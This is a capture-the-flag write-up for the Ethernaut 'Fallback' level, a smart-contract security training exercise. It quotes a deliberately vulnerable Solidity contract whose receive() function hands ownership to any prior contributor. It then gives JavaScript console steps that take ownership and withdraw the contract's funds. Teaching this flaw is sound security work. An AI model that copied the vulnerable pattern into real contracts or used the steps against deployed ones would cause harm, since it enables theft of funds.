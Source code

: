 # 01. Fallback

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0
  
Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Solution

While creating the contract, the owner get a contribution of 1000 ETH

```solidity
constructor() public {
	owner = msg.sender;
	contributions[msg.sender] = 1000 * (1 ether);
}
```	

There are two ways to get the ownership:

```solidity
// 1. Send 1000+ ETH, funding 0.0009 ETH at time
function contribute() public payable {
	require(msg.value < 0.001 ether);
	contributions[msg.sender] += msg.value;
	if(contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

Or, less tediously, send one contribution, and then exploit the fallback method:

```solidity
// 2. Exploit the fallback function
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	owner = msg.sender;
}
```

Fallback function is a special function available to a contract. It has following features: 

- It is called when a non-existent function is called on the contract.
- It is required to be marked external.
- It has no name.
- It has no arguments
- It can not return any thing.
- It can be defined one per contract.
- If not marked payable, it will throw exception if contract receives plain ether without data.

Solution:

```javascript
async function amIOwner() {
    const currentOwner = await contract.owner()
    return currentOwner == player
}


await contract.contribute({value: toWei('0.0001')})
await contract.sendTransaction({from: player, value: toWei('0.000001')})
await amIOwner()
// true
await contract.withdraw()
```

